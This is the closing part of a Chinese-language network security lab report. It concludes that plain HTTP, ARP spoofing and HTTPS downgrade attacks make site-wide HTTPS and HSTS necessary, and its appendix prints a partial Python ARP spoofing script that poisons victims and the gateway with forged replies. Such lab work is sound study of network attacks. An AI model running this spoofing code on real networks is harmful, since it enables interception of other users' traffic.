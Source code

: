 ## 结论

访问未加密的HTTP站点是一种十分危险的行为，只要攻击者能够捕获到流量（如实验一的开放无线网络监听和本次实验的ARP欺骗），受害者就会在毫无知觉的情况下泄露自己的信息。同时，降级攻击的存在也说明了局部HTTPS不是足够安全的，进而可以说明全站HTTPS，甚至全站HSTS，是十分必要的。即便如此，如果用户没有一定的安全意识，轻易信任未通过浏览器验证的HTTPS证书，那么使用HTTPS也只是徒劳。

虽然在实验中我们观察到本次实验使用的无线路由器有一定的ARP欺骗防御功能，但是在激进的攻击方式（如上面一节以及附录1中代码所述）下，这样的防御几乎是徒劳的。如果网关甚至没有任何ARP欺骗防御功能，那么攻击会更加顺利（比如虚拟机环境的攻击测试）。此外，如果交换机有能力过滤欺骗ARP包，那么ARP欺骗可以得到一定程度的缓解。

## 附录

### 附录1 ARP欺骗脚本

```python
#!/usr/bin/env python3
import os
import time

# Send an arbitray ICMP request to get IP and MAC address of the default gateway.
p = srp1(Ether()/IP(dst='1.2.3.4', ttl=0)/ICMP()/'abcdefgh')

gw_ip = p.payload.src
gw_mac = p.src
my_ip = p.payload.dst
my_mac = p.dst

def log(*s):
  print(time.asctime() + ":", *s)

log('My IP:', my_ip)
log('My MAC:', my_mac)
log('Gateway IP:', gw_ip)
log('Gateway Real MAC:', gw_mac)

def packet_cb(p):
  p = p.payload
  if p.psrc == my_ip or p.hwsrc == my_mac: # do not spoof myself
    return
  if p.psrc == p.pdst and p.psrc == gw_ip: # real gateway's gratuitous ARP
    do_reply(gw_ip, 'ff:ff:ff:ff:ff:ff') # gratuitous ARP
    return
  if p.op != 1: # bypass queries other than who-has
    return
  if p.pdst == gw_ip:
    log('{} at {} is requesting gateway\'s MAC...'.format(p.psrc, p.hwsrc))
    do_reply(gw_ip, p.hwsrc, p.psrc) # spoof victim
    do_reply(p.psrc, gw_mac, gw_ip) # spoof gateway
  elif p.psrc == gw_ip:
    log('Gateway is requesting {}\'s MAC...'.format(p.pdst))
    do_reply(p.pdst, p.hwsrc, p.psrc) # spoof gateway
    do_reply(gw_ip, 'ff:ff:ff:ff:ff:ff') # gratuitous ARP, spoof everyone else

def do_reply(fake_ip, dst, pdst=''):
  if dst == 'ff:ff:ff:ff:ff:ff':
    # gratuitous ARP
    hwdst = my_mac
    pdst = fake_ip
  else:
    hwdst = dst
  packet = Ether(dst=dst)/ARP(op='is-at',
                       hwsrc=my_mac,
                       psrc=fake_ip,
                       hwdst=hwdst,
                       pdst=pdst)
```